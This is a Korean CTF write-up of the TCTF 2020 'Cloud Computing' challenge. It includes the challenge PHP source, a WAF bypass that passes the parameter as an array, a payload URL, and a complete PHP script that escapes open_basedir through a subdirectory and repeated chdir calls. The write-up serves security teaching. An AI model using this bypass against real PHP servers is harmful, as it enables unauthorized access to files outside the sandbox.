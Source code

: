```yaml
---
layout: post
title: "[TCTF 2020] Cloud Computing"
author: "choiys"
comments: true
tags: [ctf, misc, php]
---
```


라온화이트햇 핵심연구팀 최용선


# 0. 개요

2020. 06. 27 11:00 ~ 2020. 06. 29 11:00 (48h) 진행한 TCTF 2020 문제 중 misc 분야의 Cloud Computing 문제에 대한 Write Up입니다. 풀이에 사용된 취약점은 subdirectory를 이용한 php open_basedir 우회입니다.

# 1. 문제 설명

![/assets/choi600.png](/assets/choi600.png)

**Cloud Computing**

![/assets/choi601.png](/assets/choi601.png)

**Cloud Computing 문제 설명**

Cloud Computing 문제는 misc 분야의 문제로, 대회 기간 동안 총 42팀이 풀이하였습니다.

문제 설명에는 풀이에 힌트가 될만한 문구는 없습니다.

```php
<?php

error_reporting(0);

include 'function.php';

$dir = 'sandbox/' . sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']) . '/';

if(!file_exists($dir)){
  mkdir($dir);
}

switch ($_GET["action"] ?? "") {
  case 'pwd':
    echo $dir;
    break;
  case 'upload':
    $data = $_GET["data"] ?? "";
    if (waf($data)) {
      die('waf sucks...');
    }
    file_put_contents("$dir" . "index.php", $data);
  case 'shell':
    initShellEnv($dir);
    include $dir . "index.php";
    break;
  default:
    highlight_file(__FILE__);
    break;
}
```

**index.php**

문제 페이지에 접근해보면 위와 같은 소스코드를 확인할 수 있습니다.

문제 페이지에서는 사용자의 IP와 User Agent 정보를 이용하여 웹루트를 기준으로  `/sandbox/sha1(IP+UA)` 폴더를 생성합니다.

제공하는 기능은 아래와 같습니다.

---

1. ?action=pwd
    - 앞서 생성한 사용자 디렉토리($dir) 경로를 확인합니다.

        *( sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/ )*

2. ?action=upload&data=XXX
    - $dir 경로에 data 파라미터에 삽입한 내용을 index.php로 생성합니다.
    - data 파라미터를 waf 처리 후 탐지될 경우 `waf sucks...`를 출력 후 종료합니다.
    - 정상적으로 index.php를 생성할 경우 case문에 break가 없어 3. shell(코드 실행)로 이동합니다.
3. ?action=shell
    - $dir을 파라미터로 initShellEnv라는 함수를 호출합니다.
    - 이후 2에서 생성한 index.php를 include하여 실행합니다.

---

# 2. 문제 풀이

## 2-1. WAF

위 문제 설명에서 waf 함수가 있었으며, 이 함수는 공백, 특수문자 등을 필터링하는 기능을 가지고 있었습니다.

하지만 php에서는 HTTP 파라미터로 데이터를 전송할 때 `a[]=x`와 같이 전송할 시 Array로 인식을 하면서 이를 WAF에서 처리하지 않을 경우 손쉽게 우회가 가능합니다.

```php
<?php

function waf($data = '')
{
    if (strlen($data) > 35) {
        return true;
    }
    if (preg_match("/[!#%&'*+,-.: \t@^_`|A-Z]/m", $data, $match) >= 1) {
        return true;
    }
    return false;
}

function initShellEnv($dir)
{
    ini_set("open_basedir", "/var/www/html/$dir");
}
```

**function.php**

추출한 function.php를 살펴보면 Array에 대한 별다른 처리가 없는 것을 확인할 수 있습니다.

## 2-2. open_basedir

function.php의 `initShellEnv` 를 살펴보면 open_basedir을 사용자 경로로 설정하는 것을 확인할 수 있습니다.

![/assets/choi60.png](/assets/choi60.png)

**open_basedir**

open_basedir은 설정한 특정 디렉토리 및 하위 디렉토리만 접근할 수 있도록 합니다. 본 문제에서는 이 설정 때문에 상위 디렉토리에 접근할 경우 에러가 발생합니다.

```php
Warning: file_get_contents(): open_basedir restriction in effect. File(../../index.php) is not within the allowed path(s): (/var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/) in /var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/index.php on line 1

Warning: file_get_contents(../../index.php): failed to open stream: Operation not permitted in /var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/index.php on line 1
```

payload : [http://pwnable.org:47780/?action=upload&data[]=<?php error_reporting(E_ALL); ini_set("display_errors", 1); file_get_contents('../../index.php') ?>](http://pwnable.org:47780/?action=upload&data%5B%5D=%3C?php%20error_reporting(E_ALL);%20ini_set(%22display_errors%22,%201);%20file_get_contents(%27../../index.php%27)%20?%3E)

이를 우회하는 방법은 2가지가 있습니다.

1. subdirectory
2. symbolic link

본 문제에서는 subdirectory를 이용하여 open_basedir 설정을 우회하였습니다.

```php
<?php
<?php
    error_reporting(E_ALL);
    ini_set("display_errors", 1);

    $base_dir='/var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/';
    if(!file_exists($base_dir))
        mkdir($base_dir.'/choiys');
    chdir($base_dir.'/choiys');

    ini_set('open_basedir','..');
    chdir('../');
    chdir('../');
    chdir('../');
    chdir('../');
    chdir('../');
    chdir('../');
    ini_set('open_basedir','/');

    $dirs = scandir('/');
    foreach($dirs as $dir){
        echo $dir."\n";
    }

//    echo file_get_contents('/var/www/html/function.php');
?>
```

**bypass open_basedir**

---

1. open_basedir이 설정되어있는 상태에서 임의의 디렉토리를 생성합니다.
2. chdir 명령어를 통해 해당 디렉토리로 이동한 후 open_basedir을 상위 디렉토리로 변경합니다.
3. chdir 명령어를 반복 사용하여 루트 디렉토리로 이동합니다.
4. open_basedir을 루트 디렉토리(/)로 변경합니다.

---

위와 같은 프로세스를 통해 고정된 open_basedir을 루트 디렉토리로 변경할 수 있으며, 결과적으로 모든 디렉토리에 접근이 가능해집니다.

이후 scandir 함수를 사용하여 루트 디렉토리를 확인하여 flag 파일이 존재하는 것을 확인하였습니다.

```bash
➜  cloud_computing ls
agent  agent.i64  golang_loader_assist.py  legacy_flag  payload.py  res.out
➜  cloud_computing file res.out
res.out: gzip compressed data, was "flag.img", last modified: Fri Jun 26 00:54:32 2020, from Unix, original size modulo 2^32 1048064
➜  cloud_computing mv res.out res.gz
➜  cloud_computing gzip -d res.gz
➜  cloud_computing file res
res: Linux rev 1.0 ext2 filesystem data (mounted or unclean), UUID=d4d08581-e309-4c51-990b-6472ba249420 (large files)
```

추출한 파일을 확인해보면 gzip으로 압축되어있으며, 압축 해제 시 ext2 이미지를 얻을 수 있습니다.

![/assets/choi61.png](/assets/choi61.png)

해당 이미지를 hex에디터로 살펴보면 PNG파일이 존재하는 것을 확인할 수 있으며, 카빙하여 이미지를 추출하면 플래그를 얻을 수 있습니다.

![/assets/choi62.png](/assets/choi62.png)

FLAG : **flag{do_u_like_cloud_computing}**